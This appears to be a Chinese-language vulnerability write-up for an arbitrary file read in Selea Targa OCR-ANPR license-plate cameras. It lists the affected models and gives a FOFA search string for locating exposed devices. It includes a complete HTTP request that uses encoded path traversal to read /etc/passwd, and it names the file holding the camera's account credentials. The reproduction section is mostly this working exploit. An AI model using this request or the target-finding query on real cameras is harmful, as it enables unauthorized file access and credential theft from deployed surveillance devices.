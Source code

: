 # Selea OCR-ANPR摄像机 SeleaCamera 任意文件读取漏洞

## 漏洞描述

Selea OCR-ANPR摄像机 SeleaCamera 存在任意文件读取漏洞，攻击者通过构造特定的Url读取服务器的文件

## 漏洞影响

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera iZero</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 512</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 504</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa Semplice</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 704 TKM</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 805</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 710 INOX</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 750</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 704 ILB</a-checkbox></br>

## FOFA

<a-checkbox checked>"selea_httpd"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/sel-1-20220314122220850.png)



发送如下请求包读取文件



```plain
GET /CFCARD/images/SeleaCamera/%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
```



![img](../../../.vuepress/public/img/sel-2.png)



摄像头账号密码文件为 **mnt/data/auth/users.json**



![img](../../../.vuepress/public/img/sel-3.png)